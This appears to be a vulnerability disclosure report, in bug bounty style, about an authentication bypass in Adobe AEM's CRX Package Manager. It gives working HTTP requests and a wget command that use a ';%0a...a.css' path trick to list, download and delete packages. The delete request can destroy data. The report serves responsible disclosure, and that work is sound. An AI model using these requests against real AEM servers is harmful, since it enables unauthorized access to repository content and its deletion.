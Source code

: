  # Undocumented authentication bypass in [$DOMAIN]

This bug allows attackers to bypass authentication and gain access to Package Manager if the security controls for out-of-box protection are manually removed. Packages enable the importing and exporting of repository content, and the Package Manager can be used for configuring, building, downloading, installing and deleting packages on local AEM installations. This issue allows an unauthorized user to view and download packages.


## Steps To Reproduce

You can list the packages using the following request:

```
GET /crx/packmgr/list.jsp;%0A;%0A;%0A;%0A;%0A;%0A;%0A;%0A;%0A;%0A;%0A;%0A;%0A;%0A;%0A;%0Aa.css?_dc=1615863080856&_charset_=utf-8&includeVersions=true HTTP/1.1
Host: $DOMAIN
User-Agent: curl/123
Accept-Encoding: gzip, deflate
Referer: $URL
Content-Length: 2

```
The output is attached (list.txt)

From there an attacker can download any described package using the following URL on your browser:

`wget '$URL/crx/packmgr/service.jsp;%0a;%0a;%0a;%0a;%0a;%0a;%0a;%0a;%0a;%0a;%0a;%0a;%0a;%0a;%0a;%0aa.css?_dc=1615863080856&_charset_=utf-8&includeVersions=true&cmd=get&name=CR1345449_after' -o CR1345449_after.jar `  

You can decompress the file using:
`jar xf CR1345449_after.jar`

A file called DataMigrationBundle-content-1.0-SNAPSHOT.zip will be downloaded. You can do the same with all packages just changing the name in the 'name' parameter above.

Accessing this URL you can check all available operations:
`$URL/crx/packmgr/service.jsp;%0a;%0a;%0a;%0a;%0a;%0a;%0a;%0a;%0a;%0a;%0a;%0a;%0a;%0a;%0a;%0aa.css?_dc=1615863080856&_charset_=utf-8&includeVersions=true&cmd=help` 

You could also remove the packages using the following Request. (I didn't try to remove any packages, notice the name I used)

```
POST /crx/packmgr/service.jsp;%0a;%0a;%0a;%0a;%0a;%0a;%0a;%0a;%0a;%0a;%0a;%0a;%0a;%0a;%0a;%0aa.css?_dc=1615863080856&_charset_=utf-8&includeVersions=true&cmd=rm&name=TOREMOVE HTTP/1.1
Host: $DOMAIN
User-Agent: curl/123
Accept-Encoding: gzip, deflate
Connection: close
Referer: $URL
Content-Length: 2
```


## Impact

Is possible to read the content of the packages but also remove them. This might impact the normal functioning of the AEM instance. 

 
### Supporting Material/References
https://threatpost.com/rce-bug-in-adobe-revealed/167382/
https://labs.detectify.com/2021/06/28/aem-crx-bypass-0day-control-over-some-enterprise-aem-crx-package-manager/

